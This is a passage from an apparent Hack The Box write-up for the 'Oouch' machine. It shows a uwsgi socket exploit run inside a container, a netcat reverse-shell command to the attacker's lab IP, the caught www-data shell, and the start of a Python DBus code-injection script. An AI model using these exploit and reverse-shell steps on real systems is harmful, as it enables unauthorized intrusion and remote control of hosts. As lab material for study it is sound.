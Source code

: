 Let us upload the exploit to the docker-container.

```bash
root@darkness:~# scp -i id_rsa uwsgi_ex.py qtc@10.10.10.177:/tmp/
uwsgi_ex.py                                    100% 4425    86.3KB/s   00:00
qtc@oouch:~$ scp /tmp/uwsgi_ex.py  172.18.0.2:/tmp/
uwsgi_ex.py                                    100% 4425     7.6MB/s   00:00
```

Now we have to simply execute the exploit. To get a stable reverse-shell I have also uploaded nc to the container.

```bash
qtc@aeb4525789d8:/tmp$ python3 uwsgi_ex.py -u /tmp/uwsgi.socket -m unix -c '/tmp/nc -e /bin/bash 10.10.14.29 443'
[*]Sending payload.
```

After a short delay we get a response on our nc listener.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.177.
Ncat: Connection from 10.10.10.177:58282.
www-data@aeb4525789d8:/code$ 
```

#### Code-injection over DBus

Now that we are www-data, we can finally interact with the DBus. In order to test interaction with the DBus, I have written a simple python script that 

```python
#!/usr/bin/env/python
import sys
# Needed for dbus import
sys.path.insert(0, "/usr/lib/python3/dist-packages")
import dbus

def exec(data):
    # Create dbus object
    bus = dbus.SystemBus()
    # Initialize dbus connection
    block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
    block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
    # Send data to bus
    response = block_iface.Block(data)
    # Print response
    print("Response from dbus: " + response)
    # Close connection
    bus.close()

if __name__ == "__main__":
    # Endless interaction with DBus
    while True:
        try:
            data = input("DBus> ")
            if "exit" in data:
                break
            exec(data)
        except:
            pass
```
